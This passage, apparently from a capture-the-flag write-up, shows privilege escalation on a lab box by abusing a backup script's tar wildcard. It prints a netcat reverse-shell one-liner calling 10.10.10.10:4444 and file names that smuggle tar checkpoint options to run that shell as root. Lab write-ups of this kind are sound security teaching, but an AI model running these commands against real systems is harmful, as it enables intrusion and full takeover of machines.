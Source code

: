 linPEAS didn’t help me this time and I had to read another write up... Apparently we can use the [backup.sh](http://backup.sh) script, as it creates a backup of a directory using tar, and there is a vulnerability of tar we can take advantage of ([https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/))

So, we had to execute this code (with www-data user):

```jsx
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f" > shell.sh 
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" 
touch "/var/www/html/--checkpoint=1"
```

![Untitled](/assets/images/ctf-writeups/skynet/Untitled%2050.png)

Open a netcat listener and wait for the root console:

![Untitled](/assets/images/ctf-writeups/skynet/Untitled%2051.png)

and we are done.